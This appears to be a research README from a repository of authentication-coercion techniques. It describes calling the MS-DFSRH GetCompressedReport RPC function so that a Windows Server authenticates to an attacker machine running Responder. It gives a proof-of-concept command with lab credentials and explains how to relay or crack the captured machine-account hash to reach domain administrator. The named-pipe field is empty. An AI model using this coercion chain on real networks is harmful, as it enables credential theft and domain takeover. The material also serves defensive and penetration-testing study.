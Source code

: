# MS-DFSRH - Remote call to GetCompressedReport (opnum 10)

## Summary

+ **Protocol**: [[MS-DFSRH]: DFS Replication Helper Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae)

+ **Protocol UUID**: 9009d654-250b-4e0d-9ab0-acb63134f69f

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`GetCompressedReport`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/e44138ae-c67d-4524-a724-3cf77afca244)

+ **Function operation number**: `10`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-DFSRH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) protocol (with uuid `9009d654-250b-4e0d-9ab0-acb63134f69f` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-DFSRH`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-DFSRH]: DFS Replication Helper Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae) and allows to call RPC functions of this protocol. We will then call the remote [`GetCompressedReport`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/e44138ae-c67d-4524-a724-3cf77afca244) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
GetCompressedReport('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT GetCompressedReport(
   [in] GUID replicationGroupGuid,
   [in] BSTR referenceMember,
   [in] BSTR serverName,
   [in] SAFEARRAY (_VersionVectorData)* referenceVersionVectors,
   [in] LONG flags,
   [out] SAFEARRAY (_VersionVectorData)* memberVersionVectors,
   [out] BSTR* reportCompressed,
   [out] LONG* uncompressedReportSize
 );
```

## References

+ Documentation of protocol [MS-DFSRH]: DFS Replication Helper Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/c3170e6b-e195-4aef-a286-8e6f4923a8ae

+ Documentation of function `GetCompressedReport`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-dfsrh/e44138ae-c67d-4524-a724-3cf77afca244